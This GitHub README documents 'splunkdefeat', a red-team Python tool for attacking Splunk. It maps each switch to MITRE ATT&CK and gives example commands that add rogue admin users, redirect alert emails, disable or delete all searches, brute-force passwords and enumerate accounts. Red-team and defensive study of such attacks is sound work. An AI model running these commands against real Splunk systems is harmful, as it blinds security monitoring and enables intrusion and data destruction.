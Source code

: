# About splunkdefeat

splunkdefeat is a [Splunk Enterprise SDK for Python](https://dev.splunk.com/enterprise/docs/devtools/python/sdk-python/) wrapper to help red teamers conduct multiple attack techniques against Splunk. The motivation for this proof-of-concept tool was to illustrate practical attacks against Splunk, the associated risks, and how defenders can implement countermeasures. The author assumes no liability for use of this tool.

A more detailed write-up can be found here: [splunkdefeat — A Splunk SDK wrapper for red teams](https://markernest.medium.com/splunkdefeat-a-splunk-sdk-wrapper-for-red-teams-a47a4eeeae7)

# Installation

Clone the repository:

```
git clone git@github.com:markernest0/splunkdefeat.git
```

## Python Dependencies

splunkdefeat depends on the `python-dotenv`, `prettytable` and `splunk-sdk` python modules.

Install the python dependencies:

```
pip install -r requirements.txt
```

# Usage

| Short Form    | Long Form     | Description | Tactic | Technique | Sub-Technique
| ------------- | ------------- | ------------- | ------------- | ------------- |------------- |
| -h | --help | show this help message and exit | - | - | - |
| -au | --add_user | Enter the username to create | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Create Account](https://attack.mitre.org/techniques/T1136/) | [Cloud Account](https://attack.mitre.org/techniques/T1136/003/) |
| -ap | --assign_password | Enter the password of the new user | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Create Account](https://attack.mitre.org/techniques/T1136/) | [Cloud Account](https://attack.mitre.org/techniques/T1136/003/) |
| -ar | --assign_role  | Specify the role of the new user (default choice is admin). Choices: {admin,power,user} | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Create Account](https://attack.mitre.org/techniques/T1136/) | [Cloud Account](https://attack.mitre.org/techniques/T1136/003/) |
| -ur | --update_role | Specify the role to update with a capability. Choices: {admin,power,user} | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Account Manipulation](https://attack.mitre.org/techniques/T1098/) | [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/) |
| -uc | --update_capability | Specify the capability to add to a role. Choices: {admin_all_objects, schedule_search, edit_user,mdelete_by_keyword, all} | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Account Manipulation](https://attack.mitre.org/techniques/T1098/) | [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/) |
| -ue | --update_email | Enter the new email address for alerts | [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) | [Impair Defenses](https://attack.mitre.org/techniques/T1562/) | [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) |
| -ds | --disable_searches | Disable all searches | [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) | [Impair Defenses](https://attack.mitre.org/techniques/T1562/) | [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) |
| -es | --enable_searches | Enable all searches | [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) | [Impair Defenses](https://attack.mitre.org/techniques/T1562/) | [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) |
| -sh | --splunk_host | Domain name or IP address to enumerate | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -sp | --splunk_port | Connect to the host on the tcp port. default=8089 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -su | --splunk_user | Specify the username | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -sf | --password_file | Specify the use of a password file | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -lu | --list_user | List current user | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Account Discovery](https://attack.mitre.org/techniques/T1087/) | [Cloud Account](https://attack.mitre.org/techniques/T1087/004/) |
| -la | --list_all | List all users | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Account Discovery](https://attack.mitre.org/techniques/T1087/) | [Cloud Account](https://attack.mitre.org/techniques/T1087/004/) |
| -lr | --list_roles | List all roles  | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Permission Groups Discovery](https://attack.mitre.org/techniques/T1069/) | [Cloud Groups](https://attack.mitre.org/techniques/T1069/003/) |
| -ls | --list_searches | List all searches | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Cloud Service Discovery](https://attack.mitre.org/techniques/T1526/) | - |
| -ss | --save_searches | Save all searches locally | [Exfiltration](https://attack.mitre.org/tactics/TA0010/) | [Automated Exfiltration](https://attack.mitre.org/techniques/T1020/) | - |
| -du | --delete_user | Delete a specific user | [Impact](https://attack.mitre.org/tactics/TA0040/) | [Account Access Removal](https://attack.mitre.org/techniques/T1531/) | - |
| -rs | --delete_searches | Delete all searches | [Impact](https://attack.mitre.org/tactics/TA0040/) | [Data Destruction](https://attack.mitre.org/techniques/T1485/) | - |
| -ms | --manipulate_searches | Manipulate all searches | [Impact](https://attack.mitre.org/tactics/TA0040/) | [Stored Data Manipulation](https://attack.mitre.org/techniques/T1565/001/) | - |

## Examples

* To list all the options and switches use the -h switch:

```python splunkdefeat.py -h```

### PERSISTENCE

* Create a new user use the -au, -ap, and -ar switches:

```python splunkdefeat.py -au splunk-replicate -ap mypassword123 -ar admin```

* Modify a role with additional capabilities

```python splunkdefeat.py -ur admin -uc delete_by_keyword```
    
### DEFENSE EVASION

* Update the email for all search alert actions

```python splunkdefeat.py -ue noreply@example.com```

* Disable all searches

```python splunkdefeat.py -ds```

* Enable all searches
* 
```python splunkdefeat.py -es```

### CREDENTIAL ACCESS

* Brute force a user

```python splunkdefeat.py -sh splunk.example.com -sp 8089 -su sc_admin -sf```

### DISCOVERY

* List current user and role

```python splunkdefeat.py -lu```

* List all users and roles

```python splunkdefeat.py -la```

* List all roles and capabilities

```python splunkdefeat.py -lr```

* List all searches

```python splunkdefeat.py -ls```

### EXFILTRATION

* Download all saved searches locally

```python splunkdefeat.py -ss```

### IMPACT

* Delete a user

```python splunkdefeat.py -du user_a```

* Delete all searches

```python splunkdefeat.py -rs```
    
* Manipulate all searches

```python splunkdefeat.py -ms```

